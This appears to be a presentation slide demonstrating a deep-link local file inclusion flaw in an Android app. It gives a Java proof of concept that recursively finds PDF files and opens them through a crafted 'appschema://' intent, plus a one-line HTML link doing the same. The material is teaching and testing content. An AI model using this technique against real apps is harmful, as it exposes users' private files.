

# Deep Link LFI Example
Proof of concept with Java
private static void searchFolderRecursive (File folder) {
    if (folder != null) {
        if (folder.listFiles() != null) {
            for (File file : folder.listFiles()) {
                if (file.isFile()) {
                    if(file.getName().contains(".pdf")){
                        Uri uri = Uri.parse("appschema://dashboard/goto?file=/sdcard/Android/data/com.example/appdirectory/" + file.getName());
                        Intent intent = new Intent(Intent.ACTION_VIEW, uri);
                        startActivity(intent);
                        Log.v("Got a file!", "File = " + file.getName());
                    }
                } else {
                    searchFolderRecursive(file);
                }
            }
        }
    }
}

Proof of concept with html
<html>
<a href=”appschema://dashboard/goto?file=/sdcard/Android/data/com.example/appdirectory/test.pdf”>Test LFI</a>
</html>